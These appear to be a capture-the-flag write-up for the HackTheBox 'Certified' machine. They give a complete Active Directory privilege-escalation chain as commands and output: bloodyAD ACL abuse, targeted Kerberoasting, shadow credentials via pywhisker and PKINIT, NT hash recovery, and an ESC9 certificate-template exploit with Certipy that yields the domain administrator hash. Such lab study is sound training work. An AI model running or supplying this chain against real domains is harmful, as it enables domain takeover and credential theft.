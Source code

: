 bloodyAD -u "judith.mader" -p "judith09" -d "certified.htb" --host "10.10.11.41" add genericAll "Management" "judith.mader"    
[+] judith.mader has now GenericAll on Management

bloodyAD -u "judith.mader" -p "judith09" -d "certified.htb" --host "10.10.11.41" add groupMember "management" "judith.mader"
[+] judith.mader added to management

bloodyAD -u "judith.mader" -p "judith09" -d "certified.htb" --host "10.10.11.41" set object "management_svc" servicePrincipalName -v 'ops/whatever1'
[+] management_svc's servicePrincipalName has been updated


sudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.41
python3 targetedKerberoast.py -d CERTIFIED.HTB -u judith.mader -p judith09 --dc-ip 10.10.11.41
but we cant crack the hash

second method:
python3 pywhisker.py -d "CERTIFIED.HTB" -u "judith.mader" -p "judith09" --target "management_svc" --action add

python3 gettgtpkinit.py  -cert-pfx ../pywhisker/pywhisker/BKCx6zh0.pfx -pfx-pass Ta3lh8BvlRQmtnRzuIpl certified.htb/management_svc 123.ccache
2025-01-29 03:15:38,619 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-01-29 03:15:38,680 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-01-29 03:15:38,781 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-01-29 03:15:38,781 minikerberos INFO     16564e19e0f077dd6dc7987e4e1bf20326eea98e61306595bc7d2362aa535301
INFO:minikerberos:16564e19e0f077dd6dc7987e4e1bf20326eea98e61306595bc7d2362aa535301
2025-01-29 03:15:38,786 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

export KRB5CCNAME=/home/kali/Desktop/tools/PKINITtools/123.ccache
python3 getnthash.py -key 16564e19e0f077dd6dc7987e4e1bf20326eea98e61306595bc7d2362aa535301 certified.htb/management_svc
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584

change password for ca_operator
bloodyAD -u "management_svc" -p :a091c1832bcdd4677c28b5a6a1295584 -d "certified.htb" --host "10.10.11.41" set password "ca_operator" "12342134"

# CERTIPY
certipy find -u ca_operator@certified.htb -p 12342134  -vulnerable -enabled
[!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension

**exploit EC9**
certipy account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
    
certipy req -username ca_operator@certified.htb -password 12342134 -ca certified-DC01-CA -template CertifiedAuthentication
[*] Saved certificate and private key to 'administrator.pfx'

certipy account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
certipy auth -pfx administrator.pfx -domain certified.htb
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

that is, the chain is as follows: first, as user 1, we change the UAC of user 2 to Administrator, take the certificate from him for the administrator's UAC, then return the UAC of user 2 back, and only then can we request our certificate